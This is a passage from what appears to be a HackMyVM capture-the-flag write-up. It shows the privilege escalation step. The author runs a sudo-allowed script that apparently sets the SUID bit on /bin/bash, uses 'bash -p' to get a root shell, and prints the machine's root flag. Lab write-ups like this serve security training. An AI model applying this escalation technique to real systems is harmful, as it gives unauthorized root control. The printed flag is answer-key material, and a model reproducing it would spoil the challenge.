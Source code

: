 `md5sum file2`:
```
f46d6ec08c68cb48fe098307863e85b6  file2 ←
```

`sudo /bin/bash /home/joe/coll`

`ls -alps /bin/bash`:
```
1208 -rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash ←
```

`bash -p`

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`cd /root/`

`ls -alps`:
```
total 24
4 drwx------  3 root root 4096 Feb 21  2023 ./
4 drwxr-xr-x 18 root root 4096 Feb 20  2023 ../
0 lrwxrwxrwx  1 root root    9 Feb  6  2023 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
4 drwxr-xr-x  3 root root 4096 Feb 19  2023 .local/
4 -rw-r--r--  1 root root  161 Jul  9  2019 .profile
4 -rwx------  1 root root   33 Feb  6  2023 root.txt ←
```

`cat root.txt`:
```
052cf26a6e7e33790391c0d869e2e40c ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
